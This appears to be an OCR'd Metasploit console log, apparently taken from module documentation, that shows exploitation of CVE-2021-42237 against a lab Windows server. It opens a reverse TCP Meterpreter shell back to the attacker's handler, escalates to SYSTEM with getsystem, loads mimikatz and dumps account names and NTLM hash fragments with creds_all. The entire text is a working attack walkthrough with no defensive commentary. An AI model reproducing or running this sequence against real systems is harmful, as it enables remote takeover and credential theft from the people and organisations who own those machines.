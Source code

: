 ```
LPORT => 8342
msf6 exploit(windows/http/cve_2021_42237) > exploit

[*] Started reverse TCP handler on 172.20.223.94:8342
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
[*] Sending stage (200262 bytes) to 172.20.211.198
[*] Meterpreter session 1 opened (172.20.223.94:8342 -> 172.20.211.198:60958 ) at 2021-11-10 15:34:21 -0600

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem -t 4
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                         SHA1
--------       ------           ----                         ----
Administrator  WIN-86UKQGF31O1  a25d8e40dd22b52d59757645eae  3f2aa15db1577eb28de9adde8b02
                                5b98e                        2d4d8c042b67

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-86UKQGF31O1  (null)
WIN-86UKQGF31O1$  WORKGROUP        (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-86UKQGF31O1  (null)
MSSQL$SQLEXPRESS  NT Service       (null)
win-86ukqgf31o1$  WORKGROUP        (null)


meterpreter > sysinfo
Computer        : WIN-86UKQGF31O1
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
```